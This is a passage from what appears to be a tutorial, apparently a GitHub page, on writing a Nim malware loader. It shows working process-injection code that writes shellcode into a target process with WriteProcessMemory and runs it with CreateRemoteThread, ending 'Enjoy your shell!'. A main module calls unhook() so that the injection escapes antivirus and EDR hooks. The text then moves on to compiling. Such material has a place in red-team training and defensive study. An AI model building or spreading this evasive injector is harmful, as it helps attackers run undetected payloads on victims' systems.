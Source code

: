     # Call WriteProcessMemory to write shellcode to our memory space
        var bytesWritten: SIZE_T
        let writeProcess = WriteProcessMemory(processHandle,memPointer,unsafeAddr shellcode,cast[SIZE_T](shellcode.len),addr bytesWritten)
    
        echo "[*] WriteProcessMemory: ", bool(writeProcess)
        echo "    \\-- bytes written: ", bytesWritten
        echo ""
    
    # Call CreateRemoteThread to execute a thread with our shellcode
        let threadHandle = CreateRemoteThread(processHandle,NULL,0,cast[LPTHREAD_START_ROUTINE](memPointer),NULL,0,NULL)
    
    # It works, print final messages to stdout.
        echo "[+] Thread Handle: ", threadHandle
        echo "[*] Enjoy your shell!"
        
        ### end process injection code


All that is left to write is our MainModule, which is relatively simple:

    ### begin mainmodule
    
    # Engage
    when isMainModule:
        var result = unhook()
        echo "[*] Assembly executed: ", bool(result)
        # Every code from here is not hooked / detected from Windows API imports at runtime anymore
        injector(shellcode) 
    
    ### end mainmodule

The bulk of our MainModule is from the original code snippet from the end of the av evasion section of our code that we deleted earlier.  Insert this code into our mainmodule section.  The only line we need to add to execute our process injection code is line 8 in the above, "injector(shellcode)".  

Once you have added everything, be sure to save the file.  Now we need to compile our code.

<p>&nbsp;</p>
=======================================================

## Section 5:  Compile-time
